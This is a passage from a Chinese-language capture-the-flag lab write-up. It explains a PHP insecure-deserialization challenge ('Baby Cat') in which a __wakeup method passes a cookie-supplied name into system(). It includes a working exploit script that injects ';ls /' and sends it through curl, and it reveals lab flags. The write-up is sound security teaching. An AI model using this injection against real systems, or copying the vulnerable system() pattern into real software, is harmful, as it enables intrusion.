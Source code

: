 成功得出 flag 為 ```FLAG{p1ckle_r1ck}```
## [LAB] Baby Cat
題目如下
![](assets/2-1.png)
提供的 source code
![](assets/2-2.png)
如果有設定 cookie，會把 cat_session 值做 base64 decode 然後反序列化，並印出反序列化後的內容\
而這題跟上一題一樣，只是變為 php 的版本，magic method 變為 ```__wakeup__``` 而已\
當被反序列化時，會觸發 ```__wakeup__``` 自動執行，且這邊可透過 ```$this->name``` 進行 command injection\
將字串值設為 ```';ls /'```，也就是用 ```';``` 閉合左側指令，用 ```'``` 閉合右邊的單引號\
中間放 ```ls /``` 指令，ls 出根目錄有哪些檔案和資料夾\
接著將序列化後的結果做 base64 encode，放進 cookie 裡用 curl 送 request
```php
<?php
    class Cat
    {
        public $name = '(guest cat)';
        function __construct($name)
        {
            $this->name = $name;
        }
        function __wakeup()
        {
            echo "<pre>";
            system("cowsay 'Welcome back, $this->name'");
            echo "</pre>";
        }
    }
    $cat_session = base64_encode(serialize(new Cat("';ls /'")));
    system("curl http://h4ck3r.quest:8601/ --cookie 'cat_session=".$cat_session."'");
?>
```
得知 flag 檔案為根目錄中的 flag_5fb2acebf1d0c558 檔案